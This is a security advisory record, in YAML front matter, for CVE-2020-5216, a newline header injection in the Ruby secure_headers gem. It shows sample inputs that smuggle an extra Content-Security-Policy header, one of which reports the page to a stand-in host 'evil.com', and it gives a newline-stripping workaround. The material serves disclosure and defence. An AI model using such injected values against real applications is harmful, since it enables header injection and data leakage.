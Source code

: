```yaml
---
layout: advisory
title: 'CVE-2020-5216 (secure_headers): secure_headers header injection due to newline'
comments: false
categories:
- secure_headers
advisory:
  gem: secure_headers
  cve: 2020-5216
  ghsa: w978-rmpf-qmwg
  url: https://github.com/twitter/secure_headers/security/advisories/GHSA-w978-rmpf-qmwg
  date: 2020-01-23
  title: secure_headers header injection due to newline
  description: |
    If user-supplied input was passed into append/override_content_security_policy_directives,
    a newline could be injected leading to limited header injection.

    Upon seeing a newline in the header, rails will silently create a new Content-Security-Policy
    header with the remaining value of the original string. It will continue to create new headers
    for each newline.

    e.g.

    ```
    override_content_security_directives(script_src: ['mycdn.com', "\ninjected\n"])
    ```

    would result in

    ```
    Content-Security-Policy: ... script-src: mycdn.com
    Content-Security-Policy: injected
    Content-Security-Policy: rest-of-the-header
    ```

    CSP supports multiple headers and all policies must be satisfied for execution to occur, but a malicious value that reports the current page is fairly trivial:

    ```
    override_content_security_directives(script_src: ["mycdn.com", "\ndefault-src 'none'; report-uri evil.com"])
    ```

    ```
    Content-Security-Policy: ... script-src: mycdn.com
    Content-Security-Policy: default-src 'none'; report-uri evil.com
    Content-Security-Policy: rest-of-the-header
    ```

    Workarounds
    ```
    override_content_security_policy_directives(:frame_src, [user_input.gsub("\n", " ")])
    ```
  cvss_v3: 4.4
  patched_versions:
  - "~> 3.9"
  - "~> 5.2"
  - ">= 6.3.0"
---
```

